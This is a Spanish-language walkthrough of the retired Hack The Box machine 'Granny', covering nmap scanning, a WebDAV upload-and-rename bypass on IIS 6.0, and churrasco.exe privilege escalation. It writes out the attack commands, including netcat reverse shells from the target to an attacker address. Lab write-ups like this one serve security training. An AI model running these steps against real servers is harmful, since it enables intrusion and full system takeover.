









---

# Ficha Técnica


| **Nombre**            | Granny       |
| --------------------- | ------------ |
| **Plataforma**        | Hack The Box |
| **Año de creación**   | 2017         |
| **Estatus**           | Retirada     |
| **Creador**           | Ch4p         |
| **Sistema operativo** | Windows      |
| **Dificultad**        | Fácil        |

## Vectores y Técnicas de Explotación

El compromiso de este activo se divide en las siguientes fases:

- **Fase de Reconocimiento:** Enumeración exhaustiva de servicios web, identificando extensiones de servidor **WebDAV** mal configuradas que permiten métodos HTTP peligrosos (PUT/MOVE).

- **Acceso Inicial:** Explotación de la capacidad de carga de archivos para obtener una **Web-Shell**, seguida de la ejecución de una **Reverse Shell** mediante Netcat.

- **Enumeración Interna:** Auditoría de privilegios del token de usuario actual (`whoami /priv`) y revisión de la arquitectura del sistema.

- **Escalada de Privilegios:** Explotación del privilegio **SeImpersonatePrivilege** mediante el uso del exploit **Churrasco.exe**, diseñado para abusar del modelo de tokens en sistemas Windows legados.

---

# 1. Reconocimiento


## Conexión con el objetivo

Se inició la fase de reconocimiento mediante la verificación de la disponibilidad del objetivo utilizando el protocolo **ICMP** (_Internet Control Message Protocol_) a través de la herramienta **ping**. Se enviaron cuatro paquetes de solicitud (_echo request_) para validar el estado del host.

```bash
ping -c 4 10.129.95.234
```



**Interpretación Técnica:** El valor de **TTL=127** sugiere que el sistema operativo objetivo es de la familia **Windows** (cuyo valor por defecto es 128), deduciendo la presencia de un salto de red (_hop_) entre el origen y el destino. La ausencia de pérdida de paquetes confirma un canal de comunicación bidireccional óptimo para proceder con las fases de escaneo de puertos y enumeración de servicios.

---

## Escaneo de puertos (TCP)

Se ejecutó un escaneo exhaustivo sobre el rango completo de puertos TCP (**0-65535**) utilizando **Nmap** para identificar la superficie de ataque inicial. 

**Comando ejecutado:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.95.234 
```

**Resultados:**

El escaneo reportó un único vector de entrada: el puerto **80/TCP**. Debido a la naturaleza del servicio identificado, la siguiente fase operativa se centrará en la **enumeración de servicios web**, incluyendo la identificación de tecnologías (_fingerprinting_), inspección de directorios y búsqueda de posibles vulnerabilidades en el servidor HTTP.

---

# 2. Enumeración


## Enumeración de puerto (HTTP)

Una vez se identifico el puerto `80 - Abierto`, se procedió a la enumeración de dicho puerto usando el detector de versiones de *Nmap `-sV`* y el conjunto de scripts por defecto del motor **NSE**.

```bash
nmap -p80 -sCV 10.129.95.234
```



### Análisis de Tecnologías y Superficie de Exposición

Tras la fase de enumeración del puerto **80/TCP**, se identificaron componentes críticos desactualizados y configuraciones permisivas en el servidor:

**1. Identificación del Servidor Web**

- **Software:** `Microsoft IIS httpd 6.0`.
  
- **Estado:** **Legacy / End-of-Life (EoL)**. Esta versión presenta múltiples vulnerabilidades conocidas (p. ej., desbordamientos de búfer en el manejo de rutas) y carece de parches de seguridad modernos.

**2. Configuración de WebDAV y Métodos HTTP:** Se detectó la extensión **WebDAV** activa con una política de métodos extremadamente permisiva. El servidor responde positivamente a las siguientes directivas:

> `OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH`

**3. Análisis de Control de Acceso**

- **Ausencia de Autenticación:** El servidor no retorna el código de estado **401 Unauthorized** al interactuar con los métodos extendidos de WebDAV.
  
- **Implicación de Seguridad:** La falta de mecanismos de control de acceso permite a un actor no autenticado ejecutar operaciones críticas, tales como la creación de directorios (`MKCOL`), el movimiento de archivos (`MOVE`) y, fundamentalmente, la carga de archivos arbitrarios (`PUT`).

---

## Enumeración WebDAV

Dada la exposición del servicio **WebDAV** y la permisividad de sus métodos HTTP, se procedió a una fase de enumeración dirigida mediante la herramienta **davtest**. El objetivo consistió en auditar de forma automatizada la capacidad de carga del servidor y verificar las políticas de restricción de extensiones de archivos.

**Comando ejecutado:**

```bash
davtest -url http://10.129.95.234
```

### Análisis y resultados

Tras completar la batería de pruebas, se determinó que el servidor permite el almacenamiento de archivos con las siguientes extensiones:

- **Extensiones Permitidas:** `cfm`, `html`, `pl`, `txt`, `php`, `jhtml`, `jsp`.
- **Extensiones Restringidas:** `asp`, `aspx`.

**Interpretación Técnica:** Aunque el servidor confirma la capacidad de escritura (_Upload Success_), existe un mecanismo de filtrado o una configuración en el servidor **IIS 6.0** que bloquea la carga directa de archivos `.asp` o `.aspx`. Esto impide la ejecución inmediata de una _webshell_ en el lenguaje nativo del servidor. No obstante, la aceptación de extensiones como `.txt` o `.html` sugiere que el método `PUT` es funcional, lo que permite explorar vectores alternativos como el uso del método `MOVE` para evadir las restricciones de extensión.

---

## Evasión de Filtros WebDAV

Tras confirmar la restricción de subida directa para extensiones ejecutables (`.asp`, `.aspx`), se procedió a utilizar el cliente **cadaver**. El objetivo fue validar un vector de **evasión de filtros** aprovechando la disponibilidad del método HTTP `MOVE`.

### Metodología de Evasión (Type Manipulation)

Dada la configuración permisiva de los verbos HTTP, se planteó una técnica de subida en dos pasos:

1. **Transferencia Inicial (bypass de extensión):** Carga de un archivo malicioso con una extensión permitida (`.txt`), la cual no es inspeccionada por los filtros de seguridad del servidor IIS.

2. **Renombrado del Asset (RCE):** Uso del método `MOVE` para cambiar la extensión del archivo en el lado del servidor de `.txt` a `.aspx`.

#### Prueba de concepto

Para validar la vulnerabilidad de ejecución remota de comandos (**RCE**), se utilizó un recurso del repositorio estándar de **SecLists**. La estrategia consistió en la preparación de un _payload_ funcional y la ejecución de una secuencia de comandos para evadir las restricciones de subida del servidor.

1. **Preparación de Web-Shell**
Se seleccionó la _webshell_ nativa de ASPX disponible en el sistema atacante. Para evadir el filtro de extensión del servidor IIS, el archivo fue renombrado a una extensión de texto plano antes de la transferencia.

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ./cmdasp.txt
```

**Conexión al cliente y subida de archivos:**

Se utilizó el cliente **cadaver** para interactuar con el servidor WebDAV y ejecutar la técnica de **Upload & Rename**:

```bash
# Conexión al objetivo
cadaver http://10.129.95.234

# Interacción dentro de la shell de cadaver
dav:/ > ls                             # Listado del directorio remoto
dav:/ > put cmdasp.txt                 # Carga del payload (Bypass de filtro)
dav:/ > move cmdasp.txt cmdasp.aspx    # Cambio de extensión en el servidor
```

##### Resultado

Tras verificar que el bypass de extensión se completó exitosamente, se procedió a validar la funcionalidad de la **Web-Shell**. Para confirmar la **Ejecución Remota de Comandos (RCE)**, se accedió al recurso vía navegador y se ejecutó un comando `ping` hacia el host local. La recepción de la respuesta confirmó el compromiso del servidor y la capacidad de interactuar con el sistema operativo subyacente.




---

# 3. Explotación (Acceso Inicial)

## Intrusión

Una vez confirmada la vulnerabilidad de **RCE** y la conectividad bidireccional entre los activos, se ejecutó el siguiente vector de ataque para obtener una shell persistente:

1. **Transferencia de Binario:** Se cargó la utilidad `netcat.exe` en el servidor objetivo mediante la herramienta `cadaver`, aplicando una técnica de evasión mediante el cambio de extensión del archivo.

2. **Ejecución de Reverse Shell:** Se invocó el binario desde el servidor para redirigir una consola interactiva (`cmd.exe`) hacia la dirección IP del atacante.

3. **Captura de Sesión:** En el host local, se estableció un _listener_ (escucha) para recibir la conexión entrante, logrando así el acceso inicial al sistema.

### Ejecución y acceso inicial

Tras cargar exitosamente el binario en el sistema objetivo, se procedió a la ejecución de una **reverse shell** para obtener una consola interactiva. El proceso se realizó de la siguiente manera:

- **Lado del Objetivo (Web-Shell):**

```DOS
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.77 3000
```

- **Lado del Atacante (Listener):**

```bash
rlwrap nc -nlvp 3000
```

#### Resultados y Limitaciones



Se logró el acceso inicial al sistema; sin embargo, los privilegios de la cuenta actual son restringidos (identificada como cuenta de servicio). Durante la fase de enumeración post-explotación, se confirmó la **denegación de acceso** al directorio personal del usuario `Lakis`, lo que impide la lectura de vectores de información sensible o flags de usuario.

Debido a estas restricciones de permisos, el siguiente paso operativo consiste en una **Escalada de Privilegios** para elevar el contexto de seguridad en el host.




---

# 4. Post-Explotación

## Enumeración de Privilegios

Tras obtener el acceso inicial, se realizó una auditoría de los privilegios asignados al token del proceso actual mediante el comando `whoami /priv`. La salida reveló que el privilegio **SeImpersonatePrivilege** se encuentra en estado **Habilitado**.

### Vector de Elevación (JuicyPotato)

La presencia de este privilegio confirma una vulnerabilidad de **Token Impersonation**. Dado que el sistema operativo se encuentra dentro del rango de versiones vulnerables a la manipulación de interfaces **COM/RPC**, se ha identificado el uso de **JuicyPotato.exe** como el vector principal para escalar privilegios a **NT AUTHORITY\SYSTEM**.

Esta técnica permitirá interceptar una autenticación de servicio con altos privilegios para ejecutar un payload arbitrario en un contexto de seguridad superior.



Durante la fase de preparación, se identificó una incompatibilidad crítica: el binario **JuicyPotato.exe** no cuenta con soporte nativo para la arquitectura y versión del sistema objetivo (**Windows Server 2003 x86**). Al tratarse de un sistema legado, las restricciones en el modelo de objetos componentes (COM) difieren de las versiones modernas.

Ante esta limitación, se optó por el uso de [churrasco.exe](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe). Esta herramienta es una alternativa especializada para sistemas Windows antiguos que permite abusar del privilegio `SeImpersonatePrivilege` mediante la interceptación de tokens en el servicio de resolución de nombres de red, logrando un impacto idéntico al de la familia "Potato" en entornos contemporáneos.



#### Despliegue del Exploit

Utilizando el mismo vector de transferencia vía **cadaver**, se cargó el binario `churrasco.exe` en el directorio raíz del servidor web (`C:\inetpub\wwwroot`). Debido a que este sistema legacy no cuenta con protecciones de ejecución modernas (como DEP o CFG avanzados en esa ruta), se procedió a la ejecución directa para capturar el token de sistema.

**Ejecución y Captura de Shell**

Se configuró un segundo _listener_ en la máquina atacante para recibir la conexión de alta prioridad. El exploit `churrasco.exe` se utilizó para ejecutar `nc.exe` con privilegios elevados:

- **Comando en el Objetivo (Impersonation):**

```cmd
C:\inetpub\wwwroot\churrasco.exe -d "C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.77 8080"
```

- **Comando en el Atacante (Listener):**

```bash
rlwrap nc -nlvp 8080
```

##### Post-Explotación y Cierre

La ejecución fue exitosa, otorgando una shell con el contexto de seguridad máximo: **NT AUTHORITY\SYSTEM**. Con el control total sobre el servidor, se procedió a la lectura de las flags correspondientes:

1. **User Flag:** Ubicada en el directorio personal de `Lakis`.




2. **Root Flag:** Ubicada en el escritorio del Administrador.



**Estado del Objetivo:** Comprometido exitosamente.

---


